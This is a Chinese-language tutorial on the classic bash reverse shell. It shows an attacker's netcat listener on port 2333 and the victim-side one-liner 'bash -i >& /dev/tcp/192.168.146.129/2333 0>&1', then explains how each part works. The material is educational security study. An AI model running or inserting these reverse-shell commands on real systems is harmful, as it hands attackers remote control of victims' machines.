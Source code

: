   **攻击者：**

  Kali Linux   ------> 192.168.146.129

  我们就以最常见的bash为例：
   attacker机器上执行：

  ```
  nc -lvp 2333
  ```

  victim 机器上执行：

  ```
  bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
  ```

  你就会看到下图：

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cef38600-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cef38600-9c80-1.png)

  可以看到在攻击机上出现了受害者机器的shell

  解释一下这条命令具体的含义：

  **1.bash -i**

  1）bash 是linux 的一个比较常见的shell,其实linux的shell还有很多，比如 sh、zsh、等，他们之间有着细小差别

  2）-i 这个参数表示的是产生交互式的shell

  **2./dev/tcp/ip/port**

  /dev/tcp|udp/ip/port 这个文件是特别特殊的，实际上可以将其看成一个设备（Linux下一切皆文件），其实如果你访问这个文件的位置他是不存在的，如下图：

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf021f9e-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf021f9e-9c80-1.png)

  但是如果你在一方监听端口的情况下对这个文件进行读写，就能实现与监听端口的服务器的socket通信

  **实例1：**

  我们输出字符串到这个文件里

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf0c2d36-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf0c2d36-9c80-1.png)

  攻击机上的输出

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf17f062-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf17f062-9c80-1.png)

  **实例2：**

  攻击机上的输入

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf26ad46-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173607-cf26ad46-9c80-1.png)

  受害者机器上的输出

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf3172ee-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cf3172ee-9c80-1.png)
